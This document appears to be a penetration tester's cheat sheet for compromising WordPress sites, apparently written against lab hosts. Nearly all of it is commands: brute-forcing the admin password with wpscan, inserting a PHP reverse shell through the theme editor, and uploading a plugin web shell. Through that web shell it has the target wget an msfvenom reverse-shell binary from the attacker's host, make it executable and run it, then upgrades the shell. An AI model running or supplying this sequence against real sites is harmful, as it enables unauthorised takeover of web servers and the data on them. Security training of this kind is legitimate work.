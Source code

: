 #### WordPress

1. Try to bruteforce the login of any WP sites

   ```bash
   wpscan --url http://10.11.1.234/wp --passwords /usr/share/wordlists/rockyou-top100.txt --usernames admin
   ```

2. Themes

   1. From the admin console, you can get a reverse-shell using themes.  Go to Appearance-> Editor and insert PentestMonkey's Reverse PHP script `/home/coyote/opt/payloads/php-reverse-shell/php-reverse-shell.php` into the 'Archives' page of the current theme.  Remember to change the IP and port.  
      Start a reverse shell to catch it

      ```bash
      sudo go_nc.sh 8000
      ```

      Then visit the page after inserting  the code to activate the shell.

      ```bash
      http://10.11.1.251/wp/wp-content/themes/twentysixteen/archive.php
      ```

3. PHP Commands + MSFVenom Payload

   1. If you can't use the themes, try to upload the `/usr/share/seclists/Web-Shells/WordPress/plugin-shell.php` as a plugin to be able to run commands using php.  Be sure to zip it first.

   2. After uploading the file, test it with some commands (remember commands must be in URL friendly format):

      ```bash
      curl http://10.11.1.251/wp/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=id
      ```

   3. Create a reverse shell payload with msfvenom and host it on Kali, then use the PHP script to get the file on the target.

      ```bash
      msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f elf -o lin_revhttp_8000.elf
      ```

      ```bash
      sudo go_pyhttp.sh
      ```

      ```bash
      curl http://10.11.1.251/wp/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=wget%20http://192.168.119.216/lin_revhttp_8000.elf
      ```

   4. Setup a nc listener, then use the php script to chmod the executable and execute it.

      ```bash
      sudo go_nc 8000
      ```

      ```bash
      curl http://10.11.1.251/wp/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=chmod%20%2Bx%20lin_revhttp_8000.elf
      ```

      ```bash
      curl http://10.11.1.251/wp/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=./lin_revhttp_8000.elf
      ```

   5. Upgrade your shell

      ```bash
      # If Python is available
      python -c 'import pty; pty.spawn("/bin/bash")'
      
      # Otherwise
      SHELL=/bin/bash script -q /dev/null
      # If the shell is still janky, do the following:
      CTRL+Z
      stty raw -echo
      #After typing the above, you won't see the next thing you type
      fg
      reset
      xterm
      #Press 'ENTER' a couple of times to get the prompt back
      ```

